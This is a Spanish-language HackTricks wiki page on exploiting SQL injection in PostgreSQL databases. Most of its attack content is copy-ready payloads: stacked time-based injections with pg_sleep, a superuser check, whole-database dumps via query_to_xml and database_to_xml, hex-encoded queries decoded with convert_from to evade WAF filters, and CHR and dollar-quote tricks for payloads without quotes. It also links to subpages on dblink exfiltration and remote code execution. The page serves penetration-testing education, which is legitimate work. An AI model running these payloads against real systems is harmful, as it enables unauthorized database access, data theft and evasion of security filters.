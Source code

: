 # Inyección de PostgreSQL

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y en hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Esta página tiene como objetivo explicar diferentes trucos que podrían ayudarte a explotar una inyección SQL encontrada en una base de datos postgresql y complementar los trucos que puedes encontrar en** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Interacción de Red - Escalación de Privilegios, Escáner de Puertos, divulgación de respuesta de desafío NTLM y Exfiltración

El **módulo de PostgreSQL `dblink`** ofrece capacidades para conectarse a otras instancias de PostgreSQL y ejecutar conexiones TCP. Estas características, combinadas con la funcionalidad `COPY FROM`, permiten acciones como escalación de privilegios, escaneo de puertos y captura de respuesta de desafío NTLM. Para métodos detallados sobre cómo ejecutar estos ataques, consulta cómo [realizar estos ataques](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Ejemplo de Exfiltración usando dblink y objetos grandes**

Puedes [**leer este ejemplo**](dblink-lo\_import-data-exfiltration.md) para ver un ejemplo de CTF de **cómo cargar datos dentro de objetos grandes y luego exfiltrar el contenido de objetos grandes dentro del nombre de usuario** de la función `dblink_connect`.

## Ataques de PostgreSQL: Lectura/escritura, RCE, privesc

Consulta cómo comprometer el host y escalar privilegios desde PostgreSQL en:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## Bypass de WAF

### Funciones de cadena de PostgreSQL

Manipular cadenas podría ayudarte a **eludir WAFs u otras restricciones**.\
[**En esta página** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**puedes encontrar algunas funciones de cadenas útiles.**

### Consultas Apiladas

Recuerda que PostgreSQL soporta consultas apiladas, pero varias aplicaciones generarán un error si se devuelven 2 respuestas cuando se espera solo 1. Pero, aún puedes abusar de las consultas apiladas a través de inyección de tiempo:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### Trucos de XML

**query\_to\_xml**

Esta función devolverá todos los datos en formato XML en un solo archivo. Es ideal si deseas volcar una gran cantidad de datos en solo 1 fila:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Esta función volcará toda la base de datos en formato XML en solo 1 fila (ten cuidado si la base de datos es muy grande, ya que podrías provocar un DoS o incluso a tu propio cliente):
```sql
SELECT database_to_xml(true,true,'');
```
### Cadenas en Hex

Si puedes ejecutar **consultas** pasándolas **dentro de una cadena** (por ejemplo, usando la **`query_to_xml`** función). **Puedes usar convert\_from para pasar la cadena como hex y eludir filtros de esta manera:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Citas prohibidas

Si no puedes usar comillas para tu carga útil, puedes eludir esto con `CHR` para cláusulas básicas (_la concatenación de caracteres solo funciona para consultas básicas como SELECT, INSERT, DELETE, etc. No funciona para todas las declaraciones SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
O con `$`. Estas consultas devuelven los mismos resultados:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

